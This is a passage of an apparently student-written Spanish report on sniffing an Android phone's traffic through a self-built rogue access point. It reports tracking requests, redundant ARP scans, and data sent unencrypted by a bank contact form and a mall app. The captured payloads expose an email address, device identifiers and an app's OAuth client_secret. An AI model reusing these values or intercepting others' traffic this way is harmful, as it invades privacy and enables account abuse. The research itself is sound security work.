\section{Pruebas y resultados}

Para realizar nuestro conjunto de pruebas sobre el ap, conectamos un celular android al mismo y nos pusimos a analizar el tráfico 
con varias herramientas y configuraciones, de manera de poder realizar un análisis lo más detallado posible de las cosas que suceden
durante los diferentes usos de nuestro dispositivo. Luego, buscamos realizar ataques MITM para poder modificar los paquetes en viaje
y hacer que el usuario vea lo que nosotros queremos que vea.

\subsection{Sniffing y análisis de tráfico}

\begin{itemize}
  \item Tcpdump sobre el puerto 53 para ver los requests dns que se originaban, y así poder entender un poco mejor exactamente a donde se
  realizan las conexiones generadas tanto por el sistema operativo, así como también por las aplicaciones.
  \item Httpry para capturar el tráfico http que viaja por la red y poder de esta manera detectar todas las conexiones sin cifrar que puedan 
  estar mandando información sensible.
  \item Wireshark para dumpear todo el tráfico sin filtros a un archivo pcap, y luego poder analizarlo en busca de detalles que se nos hayan
  podido pasar debido a que las otras herramientas filtran solo un tráfico específico.
\end{itemize}

Además, decidimos dividir las pruebas en las siguientes categorías que consideramos interesantes para el análisis:

\begin{itemize}
  \item Sniffing
  \begin{itemize}
    \item Dispositivo en reposo
    \item Instalación de aplicación
    \item Navegación web sobre HTTP y HTTPS
  \end{itemize}
  \item Análisis del uso de red en aplicaciones
  \begin{itemize}
    \item Trackeo de datos
    \item Reintentos innecesarios
    \item Envío de información no cifrada
  \end{itemize}
\end{itemize}


\subsubsection{Sniffing - Dispositivo en reposo}
Para este análisis, decidimos conectar el celular a nuestro AP sin ninguna aplicación abierta (por el usuario) o en segundo plano, 
luego inmediatamente bloquearlo y dejarlo en reposo de 20-30 minutos y analizar el tráfico que se generó durante este lapso. utilizamos
tcpdump para capturar todos los requests realizamos desde y hacia la el teléfono, el cual en el momento de la prueba, tenía la IP 10.0.0.168.
Si bien no encontramos ningún tráfico muy fuera de lo común para este tipo de dispositivo, si nos pareció interesante la cantidad 
de requests que continuamente está realizando el dispositivo hacia varios servicios. A continuación, el detalle de los pedidos solicitados 
por nuestro dispositivo:

\begin{itemize}

\item El celular realiza varias varias requests a diferentes servicios de google. Pudimos ver pedidos por el puerto 53 de direcciones DNS de 
servicios de google como \textbf{www.google.com}, \textbf{www.googleapis.com}, \textbf{playatoms-pa.googleapis.com}.

\begin{lstlisting}[style=base]
  15:31:57.811956 IP 10.0.0.168.49417 > kali.domain: 14765+ A? www.googleapis.com. (36)
  15:31:57.826415 IP kali.domain > 10.0.0.168.49417: 14765 4/4/4 CNAME googleapis.l.google.com., A 172.217.30.138, A 172.217.30.170, A 172.217.28.202 (254)
  15:31:57.848861 IP 10.0.0.168.55359 > eze03s35-in-f10.1e100.net.https: Flags [S], seq 261817987, win 65535, options [mss 1460,sackOK,TS val 39032974 ecr 0,nop,wscale 8], length 0
  15:31:57.861598 IP eze03s35-in-f10.1e100.net.https > 10.0.0.168.55359: Flags [S.], seq 358949, ack 261817988, win 64240, options [mss 1460], length 0
  15:31:57.866169 IP 10.0.0.168.55359 > eze03s35-in-f10.1e100.net.https: Flags [.], ack 1, win 65535, length 0
\end{lstlisting}

Evidentemente, más allá de estar bloqueado el teléfono, este interactúa con varios servicios de google, lo cual no nos sorprende dado 
que es un celular de Android y estamos conectados con una cuenta de Google a varios de sus servicios asociados.

\item Se realizan requests hacia dominios relacionados con whatsapp, probablemente para verificar si hay mensajes nuevos y poder notificarlos. 
Lo más interesante de esto, es que el pedido DNS de este dominio de whatsapp nos devolvió un IP perteneciente a Telecentro (nuestra interfaz 
eth0 está proviste por el ISP Telecentro). Esto es interesante dado que nos da la noción de que, más allá de que no puedan ver el tráfico 
que se envía de whatsapp, si puedan estar midiendo el tráfico de whatsapp que viaja por su red.

\begin{lstlisting}[style=base]
  15:37:36.278210 IP 10.0.0.168.53258 > kali.domain: 6586+ A? Mmg-fna.whatsapp.net. (38)
  15:37:36.296058 IP kali.domain > 10.0.0.168.53258: 6586 2/2/4 CNAME mmx-fb.cdn.whatsapp.net., A 186.19.254.33 (202)
  15:37:36.334629 IP 10.0.0.168.47623 > cpe-186-19-254-33.telecentro-reversos.com.ar.https: Flags [S], seq 3654449117, win 65535, options [mss 1460,sackOK,TS val 39044739 ecr 0,nop,wscale 8], length 0
  15:37:36.346152 IP cpe-186-19-254-33.telecentro-reversos.com.ar.https > 10.0.0.168.47623: Flags [S.], seq 189809644, ack 3654449118, win 64240, options [mss 1460], length 0
\end{lstlisting}

\item Se realizan también requests a dominios relaciones con Google Ads, lo cual es bastante extraño dado que el celular esta bloqueado, 
sin ningún navegador abierto y por lo tanto ninguna publicidad se está mostrando. Tampoco tenemos la aplicación de AdWords instalada.

\begin{lstlisting}[style=base]
  15:47:03.847475 IP 10.0.0.168.39297 > kali.domain: 53235+ A? googleads.g.doubleclick.net. (45)
  15:47:03.859980 IP kali.domain > 10.0.0.168.39297: 53235 2/4/4 CNAME pagead46.l.doubleclick.net., A 172.217.28.194 (232)
  15:47:03.867331 IP 10.0.0.168.42008 > eze03s30-in-f2.1e100.net.https: Flags [S], seq 964055324, win 65535, options [mss 1460,sackOK,TS val 39170190 ecr 0,nop,wscale 8], length 0
  15:47:03.888475 IP eze03s30-in-f2.1e100.net.https > 10.0.0.168.42008: Flags [S.], seq 2016752776, ack 964055325, win 64240, options [mss 1460], length 0
\end{lstlisting}

\item Detectamos también interacción con los servidores de Netflix (dado que tenemos la aplicación instalada). Dado que no estábamos 
viendo nada ni tampoco teníamos la aplicación abierta, suponemos que Netflix trackea nuestro comportamiento o envía información de 
nuestro celular hacia sus servidores.

\begin{lstlisting}[style=base]
  15:50:54.384017 IP 10.0.0.168.36715 > kali.domain: 16303+ A? api-global.netflix.com. (40)
  15:50:56.404897 IP kali.domain > 10.0.0.168.36715: 16303 10/4/6 CNAME api-global.geo.netflix.com., CNAME api-global.us-east-1-sa.prodaa.netflix.com., A 54.164.212.172, A 54.164.49.61, A 54.173.178.127, A 54.210.30.204, A 54.164.207.213, A 54.173.250.49, A 54.164.216.123, A 54.152.71.86 (499)
  15:50:57.433861 IP 10.0.0.168.34703 > ec2-54-164-212-172.compute-1.amazonaws.com.https: Flags [S], seq 4072206306, win 65535, options [mss 1460,sackOK,TS val 39227017 ecr 0,nop,wscale 8], length 0
\end{lstlisting}

\item Encontramos requests UDP a la ip 239.255.255.250. Al principio nos pareció extraño pero luego de investigar un poco nos dimos cuenta 
que son requests relacionadas con el \textbf{Simple Service Discovery Protocol (SSDP)} que se utiliza para descubrir a otros dispositivos 
del tipo Universal Plug \& Play de la red.

\begin{lstlisting}[style=base]
  15:50:57.728650 IP 10.0.0.168.53028 > 239.255.255.250.1900: UDP, length 125
  15:50:57.728679 IP 10.0.0.168.53028 > 239.255.255.250.1900: UDP, length 125
\end{lstlisting}

\item Detectamos pedidos DNS de apis de Facebook, e inmediatamente hacia algo llamado Crashlytics. El celular usado para las pruebas no 
tiene Facebook ni nada relacionado instalado (excepto Whatsapp), con lo cual intuímos que esto esta relacionado con Whatsapp, el cual 
es propiedad de Facebook. Investigando un poco más, nos encontramos que Crashlytics es un servicio que puede incluir en apps de 
celulares y que permite trackear cuando las aplicaciones crashean. La conclusión que podemos obtener es que Facebook debe 
querer trackear cuando sus aplicaciones fallan, específicamente en este caso, cuando Whatsapp falla.

\begin{lstlisting}[style=base]
  15:53:57.005173 IP 10.0.0.168.60043 > kali.domain: 10722+ A? Graph.facebook.com. (36)
  15:53:57.019333 IP kali.domain > 10.0.0.168.60043: 10722 3/2/4 CNAME api.facebook.com., CNAME star.c10r.facebook.com., A 179.60.193.16 (217)
  15:53:57.107599 IP 10.0.0.168.48137 > kali.domain: 13728+ A? settings.crashlytics.com. (42)
  15:53:57.122040 IP kali.domain > 10.0.0.168.48137: 13728 9/4/6 CNAME settings-crashlytics-b-103974621.us-east-1.elb.amazonaws.com., A 23.23.141.81, A 23.23.115.241, A 23.23.154.246, A 23.23.135.166, A 23.23.100.184, A 23.23.159.200, A 23.23.145.88, A 23.23.151.233 (498)
\end{lstlisting}

\item Se realizan requests hacia la api de AccuWeather probablemente para actualizar el clima que muestra integrado en casi todos los 
teléfonos android.

\begin{lstlisting}[style=base]
  16:12:30.630286 IP 10.0.0.168.53667 > kali.domain: 45159+ A? api.accuweather.com. (37)
  16:12:30.643028 IP kali.domain > 10.0.0.168.53667: 45159 3/9/9 CNAME api.accuweather.com.edgekey.net., CNAME e10414.g.akamaiedge.net., A 23.12.155.157 (450)
\end{lstlisting}

\item También tenemos requests de la aplicación de Outlook para android y de Skype. Nada raro en este caso, dado que son aplicaciones de 
mail y mensajería es esperable que estén continuamente chequeando por nuevos mails o mensajes.

\begin{lstlisting}[style=base]
  16:15:09.755357 IP 10.0.0.168.48568 > kali.domain: 45520+ A? Outlookmobile-office365-tas.msedge.net
  16:15:09.768672 IP kali.domain > 10.0.0.168.48568: 45520 3/2/2 CNAME outlookmobile-office365-tas-msedge-net.e-0009.e-msedge.net., 
  CNAME e-0009.e-msedge.net., A 13.107.5.88 (223)
  16:15:12.203729 IP 10.0.0.168.53945 > kali.domain: 55377+ A? Mobile.pipe.aria.microsoft.com
  16:15:12.216609 IP kali.domain > 10.0.0.168.53945: 55377 5/10/5 CNAME prd.col.aria.mobile.skypedata.akadns.net., CNAME pipe.skype.com., 
  CNAME pipe.prd.skypedata.akadns.net., CNAME pipe.cloudapp.aria.akadns.net., A 40.117.100.83 (504)
\end{lstlisting}

\item Un tipo de request interesante que encontramos fue hacia un dominio llamado arethusa.tweakers.net utilizando el protocolo NTPv3, el cual 
permite el chequeo y sincronización de relojes. Buscando un poco sobre más sobre este dominio, pudimos encontrar que es un dominio holandés, 
con IP 213.239.154.12. Buscando por esa IP, pudimos encontrar que suele ser utilizada en configuraciones para el NTP. Evidentemente, se 
suele utilizar para sincronizar relojes.

\end{itemize}

\subsubsection{Sniffing - Instalación de aplicación}

Para poder realizar este análisis sobre la instalación de una aplicación, nos ubicamos dentro del Play Store de Google, seleccionamos una 
aplicación (de unos 18MB aproximadamente), nos conectamos al AP y luego utilizamos tcpdump para intentar capturar todo el tráfico desde 
y hacia el dispositivo al elegir la opción de instalar. El tráfico capturado nos reveló lo siguiente:

\begin{enumerate}
  \item Primero se realiza un request dns a play.googleapis.com
  \item Sucede algún intercambio por HTTPS con un servidor de Google, dado que pertenece al dominio *.1e100.net que es propiedad de Google.
  \item Se realiza un request dns a android.clients.google.com
  \item Se intercambian paquetes UDP y TCP entre nuestro dispositivo y otro servidor de Google
  \item Luego hay un request dns a r7---sn-uxaxjxougv-x1xz.gvt1.com, lo cual está dentro del dominio de Google, dado que al poner la URL 
  en el navegador el error 404 es el de Google. Suponemos que este es el servidor designado el cual nos enviará los datos necesarios para 
  instalar la aplicación, y que el mismo surgió de la comunicación del paso anterior.
  \item Finalmente, sucede la comunicación de los datos para instalar la aplicación mediante HTTPS entre dispositivo y servidor. 
\end{enumerate}


\subsubsection{Sniffing - Navegación web sobre HTTP y HTTPS}

\begin{wrapfigure}{r}{5cm}
    \centering
    
\includegraphics[width=5cm]{img/hipotecario.png}
\end{wrapfigure}

Al iniciar cualquier navegación web, una de las primeras cosas que notamos, a partir de los datos de Wireshark, es la gran cantidad de paquetes 
de dos tipos, \textbf{TCP Retransmission} y \textbf{TCP Dup ACK} Investigando un poco más, llegamos a la conclusión de que esto puede deberse al uso 
de \textbf{TCP Fast Retransmit}. 

TCP Fast Retransmit es un mecanismo mediante el cual un receptor puede indicar que ha visto un espacio en los números de secuencia recibidos lo cual 
implica la pérdida de uno o más paquetes en tránsito. A partir de los últimos ACK recibidos se determina que paquetes deben retransmitir el remitente. 
Esto puede ocurrir sin esperar el tiempo de espera de ACK para que el paquete perdido impacte en el transmisor, lo que, como su nombre lo indica, significa 
una recuperación mucho más rápida. Es decir, dado que nuestro Rogue AP, los requests son recibidos, analizados y forwardeados a la placa de red que esta 
conectada a la internet, es posible que este \textbf{overhead en tiempo que se produce haga que los paquetes se retransmitan dado que los ACK tardan demasiado en 
llegar}. Sin embargo, del lado de la persona que está esperando que le cargue la página en el celular, el tiempo de espera de carga sigue dentro de un rango 
normal más allá de estas pequeñas demoras.

Analizamos tráfico tanto de páginas que utilizan HTTP como HTTPS. Obviamente, en HTTPS la información viaja cifrada con lo cual no hay mucha información que 
se pueda extraer más allá de la información del dominio. Sin embargo, encontramos que algunas páginas intercalan entre HTTP y HTTPS para diferentes subdominios 
de las mismas, lo cual es algo peligroso y muy sensible a ataques MITM.

En primera instancia. Intentamos buscar alguna página que maneje datos sensibles que tenga problemas de seguridad o que mande datos relevantes de un usuario 
en claro. Se nos ocurrió probar con entrar a las versiones mobile de las páginas de los bancos. Es aquí donde nos encontramos con la página mobile del 
banco hipotecario, \textbf{m.hipotecario.com.ar}. Obviamente, como cualquier banco, loguearse al home banking del mismo es imposible si no se está sobre HTTPS. 
Sin embargo, intentamos buscar otro punto por donde información sensible pueda sniffearse. De esta manera, encontramos la página de \textbf{Contáctenos}, lo cual 
a simple vista parece inofensivo. Completamos el formulario con datos de prueba y al analizar el request nos encontramos lo siguiente:

\begin{lstlisting}[style=base]
2017-11-19 00:04:47	10.0.0.168	200.124.126.18	>	POST	m.hipotecario.com.ar	/EnviarFormulario	HTTP/1.1	-	-
2017-11-19 00:04:47	200.124.126.18	10.0.0.168	<	-	-	-	HTTP/1.1	200	OK
\end{lstlisting}


\begin{lstlisting}[style=base]
  ------- Payload del POST -------

  nombre=Aaaaa&apellido=Bbbbb&dni=111111111&email=Aaaa%40bbbb.com&celular=11111111&consulta=Test+%7C+Es+Cliente&CaptchaCode=052&EncData=%2FCJ15Ehz0%2BK6sKWFhkwafRVmAm5t2TOT

  --------------------------------
\end{lstlisting}


\begin{wrapfigure}{l}{3.5cm}
    \centering
    
\includegraphics[width=3.2cm]{img/ml.png}
\end{wrapfigure}

El problema de esta página radica en que se solicitan varios datos, entre los cuales están el email, el dni y la información de si es o 
no cliente. Ahora supongamos que la persona pone su DNI, su email y especifica que es cliente del banco. Entonces, con toda esta información, 
\textbf{un atacante podría generar emails para tratar de engañar a la persona solicitándole entrar a un home banking falso con un link 
malicioso y robarle sus datos bancarios}. Es por eso que información tan sensible como si se es o no cliente de un banco junto con documento 
y otros datos personales debe viajar cifrado para evitar que algún tercero utilice estos datos a su beneficio.


\subsubsection{Análisis del uso de red en aplicaciones - Trackeo de datos}

Para esta prueba, buscamos ver con que servicios se comunican las aplicaciones, especialmente si realizan requests de trackeo o a 
dominios extraños. Un buen ejemplo de trackeo de información del dispositivo podemos observarlo en la aplicación de MercadoLibre. La 
misma \textbf{realiza requests de trackeo en intervalos de tiempo cortos}. Para verlo usamos httpry y Wireshark.

\begin{itemize}
  
  \item Log de httpry. Claramente la url nos está diciendo a la cara que está trackeando información.
  
  \begin{lstlisting}[style=base]
    2017-11-18 22:57:26	10.0.0.168	34.235.240.12	>	POST	data.mercadolibre.com	/tracks	HTTP/1.1	-	-
    2017-11-18 22:57:27	34.235.240.12	10.0.0.168	<	-	-	-	HTTP/1.1	200	OK
  \end{lstlisting}
  
  \item Payload de Wireshark. Como se puede ver, información relevante del dispositivo, como la versión de android, el modelo de celular, tamaño de pantalla, etc. es enviada por HTTP.
  
  \begin{lstlisting}[style=base]
    POST /tracks HTTP/1.1
    Content-Encoding: gzip
    X-melidata-site: MLA
    X-melidata-sdk-version: 0.1
    X-device-timestamp: 2017-11-19T00:41:24.491-0300
    X-device-time: 1511062884491
    Content-Type: application/json
    Content-Length: 3056
    Host: data.mercadolibre.com
    Connection: Keep-Alive
    Accept-Encoding: gzip
    User-Agent: okhttp/2.2.0	"tracks":[{"application":{"app_id":"7092","site_id":"MLA","version":"8.13.3","business":"mercadolibre"},"sequential_id":1899,@"device":{"platform":"/mobile/android","resolution_width":720.0,"resolution_height":1184.0,"device_id":"52c0d4d328a147de","auto_time":true,"device_name":"Moto G Play","os_version":"6.0.1","orientation":0.0,"connectivity_type":"WIFI"}@,"event_data":{},"experiments":{},"id":"572e21cb-f049-49c1-80cb-634fb78b3afe","path":"/application/open","platform":{"mobile":{"mode":"normal"}},"priority":"NORMAL","retry":0,"secure":false,"type":"event","user":{"advertiser_id":"d7fd17bc-8076-4ac9-9a07-43e682e3afc2","uid":"9d7596539941b227"},"user_time":1511062870669,"user_local_timestamp":"2017-11-19T00:41:10.669-0300"}]
  \end{lstlisting}
  
\end{itemize}

\newpage


\subsubsection{Análisis del uso de red en aplicaciones - Reintentos innecesarios}

\begin{wrapfigure}[9]{r}{5cm}
    \centering
    
\includegraphics[width=4.5cm]{img/miwifi.png}
\end{wrapfigure}

Para esta prueba instalamos una aplicación la cual tiene como función analizar todos los dispositivos que estén presentes dentro de la 
red de nuestro celular de prueba. Esta aplicación se llama \textbf{Quién usa mi wifi Herramienta de red}. Con las herramientas que ya venimos 
utilizando (Wireshark, tcpdump y httpry) analizamos su comportamiento durante el escaneo de los dispositivos de la red. Lo primero que 
notamos es que la aplicación comienza a enviar paquetes ARP who has a toda las direcciones IP de la red. 

\begin{lstlisting}[style=base,basicstyle=\small\color{white}]
  14:27:37.088325 ARP, Request who-has 10.0.0.3 tell 10.0.0.168, length 28
  14:27:37.088354 ARP, Request who-has 10.0.0.3 tell 10.0.0.168, length 28
  14:27:37.090301 ARP, Request who-has 10.0.0.2 tell 10.0.0.168, length 28
  14:27:37.090333 ARP, Request who-has 10.0.0.2 tell 10.0.0.168, length 28
  14:27:37.097901 ARP, Request who-has 10.0.0.4 tell 10.0.0.168, length 28
  14:27:37.097922 ARP, Request who-has 10.0.0.4 tell 10.0.0.168, length 28
  14:27:37.099722 ARP, Request who-has 10.0.0.5 tell 10.0.0.168, length 28
  14:27:37.099744 ARP, Request who-has 10.0.0.5 tell 10.0.0.168, length 28
  14:27:37.101717 ARP, Request who-has 10.0.0.7 tell 10.0.0.168, length 28
  14:27:37.101737 ARP, Request who-has 10.0.0.7 tell 10.0.0.168, length 28
  14:27:37.105791 ARP, Request who-has 10.0.0.8 tell 10.0.0.168, length 28
  14:27:37.105810 ARP, Request who-has 10.0.0.8 tell 10.0.0.168, length 28
  14:27:37.108061 ARP, Request who-has 10.0.0.6 tell 10.0.0.168, length 28
  14:27:37.108081 ARP, Request who-has 10.0.0.6 tell 10.0.0.168, length 28
  14:27:37.110164 ARP, Request who-has 10.0.0.9 tell 10.0.0.168, length 28
  14:27:37.110183 ARP, Request who-has 10.0.0.9 tell 10.0.0.168, length 28
  ........
\end{lstlisting}

Sin embargo, podemos notar que no manda uno, si no 2 paquetes ARP por IP, lo cual no esta del todo bien ya que, suponiendo que el request 
ARP no se pierde, con uno sería suficiente. Lo que es peor aún, es que más allá de esta duplicación de paquetes ARP, \textbf{cada cierta cantidad 
de paquetes ARP vuelve a enviar who has a IPs que ya lo había hecho antes}.

\begin{lstlisting}[style=base]
  ........
  14:27:37.198176 ARP, Request who-has 10.0.0.38 tell 10.0.0.168, length 28
  14:27:37.198196 ARP, Request who-has 10.0.0.38 tell 10.0.0.168, length 28
  14:27:37.202861 ARP, Request who-has 10.0.0.40 tell 10.0.0.168, length 28
  14:27:37.202880 ARP, Request who-has 10.0.0.40 tell 10.0.0.168, length 28
  14:27:37.204847 ARP, Request who-has 10.0.0.39 tell 10.0.0.168, length 28
  14:27:37.204868 ARP, Request who-has 10.0.0.39 tell 10.0.0.168, length 28
  14:27:38.091373 ARP, Request who-has 10.0.0.3 tell 10.0.0.168, length 28
  14:27:38.091392 ARP, Request who-has 10.0.0.3 tell 10.0.0.168, length 28
  14:27:38.092884 ARP, Request who-has 10.0.0.2 tell 10.0.0.168, length 28
  14:27:38.092904 ARP, Request who-has 10.0.0.2 tell 10.0.0.168, length 28
  14:27:38.096138 ARP, Request who-has 10.0.0.4 tell 10.0.0.168, length 28
  14:27:38.096156 ARP, Request who-has 10.0.0.4 tell 10.0.0.168, length 28
  14:27:38.098022 ARP, Request who-has 10.0.0.5 tell 10.0.0.168, length 28
  14:27:38.098041 ARP, Request who-has 10.0.0.5 tell 10.0.0.168, length 28
  ........ 
\end{lstlisting}

Calculando correctamente los intervalos, pudimos descubrir que envía paquetes ARP de a 40 direcciones IP, 3 veces por cada intervalo antes 
de pasar al siguiente. Esto claramente son una gran cantidad de reintentos innecesarios, ya que dado que se envían 2 paquetes ARP por IP y 
cada segmento se recorre 3 veces, entonces \textbf{por cada IP de nuestra red se envían 6 paquetes ARP del mismo tipo}. 

Cabe destacar además, que durante el escaneo, se produjeron una gran cantidad de requests a servidores de Google. La aplicación tiene anuncios
de Google AdWords, pero más allá de los necesarios para cargar el único anuncio que se mostró en la aplicación, muchos otros requests extras 
se generaron de los cuales no pudimos determinar su intención.

\subsubsection{Análisis del uso de red en aplicaciones - Envío de información no cifrada}

Gran parte de las aplicaciones que testeamos envían algún tipo de información mediante HTTP la cual no viaja cifrada. La mayoría de esta 
información no lleva información relevante del usuario de la misma, más que el modelo de celular y versión del sistema operativo. Sin embargo, 
nos hemos encontrado con alguna excepciones donde información que debería ser confidencial y viajar cifrada no lo hace. Este es el caso de la 
\textbf{aplicación de Unicenter, la cual envía tanto el usuario como la clave para loguearse en la misma mediante HTTP}, por lo que pudimos 
detectarlo con la ayuda de httpry y revisando el payload con wireshark. 

\begin{itemize}
  
  \item Log de httpry. La url y el hecho de que sea un request de tipo POST ya nos hizo sospechar que algo andaba mal aquí.
  
  \begin{lstlisting}[style=base]
    2017-11-18 23:01:50	10.0.0.168	23.20.233.135	>	@POST@	unicenter.cencosudshopmobile.com.ar	@/oauth/access_token@	HTTP/1.1	-	-
    2017-11-18 23:01:52	23.20.233.135	10.0.0.168	<	-	-	-	HTTP/1.1	200	OK
    2017-11-18 23:01:52	23.20.233.135	10.0.0.168	<	-	-	-	HTTP/1.1	200	OK
  \end{lstlisting}
  
  \item Payload del request en Wireshark. Claramente aquí se puede ver que tanto el usuario como la clave viajan en claro. Hemos escondido manualmente la clave con asteriscos para proteger la confidencialidad de la misma.
  
  \begin{lstlisting}[style=base]
    POST /oauth/access_token HTTP/1.1
    Content-Type: application/json; charset=utf-8
    Content-Type: application/json; charset=utf-8
    User-Agent: Dalvik/2.1.0 (Linux; U; Android 6.0.1; Moto G Play Build/MPI24.241-2.47-19-1)
    Host: unicenter.cencosudshopmobile.com.ar
    Connection: Keep-Alive
    Accept-Encoding: gzip
    Content-Length: 149
    {"grant_type":"password",@"username":"famfede@gmail.com","password":"********"@,"client_id":"android","client_secret":"OX011HNR3Lpt870JAl1Rb8MM88BE27j8"}
  \end{lstlisting}
  
\end{itemize}

Si bien la aplicación de Unicenter no maneja información que pudiese ser relevante para un atacante (sólo permite acceder a promociones y al 
mapa del centro comercial), es importante recordar que muchos usuarios de aplicaciones suelen usar la misma combinación de usuario/clave para 
varios sitios web. Esto significa que el atacante podría utilizar estas credenciales para intentar autenticarse en otras aplicaciones o servicios
como Facebok o Gmail.

\begin{wrapfigure}{r}{10cm}
    \centering
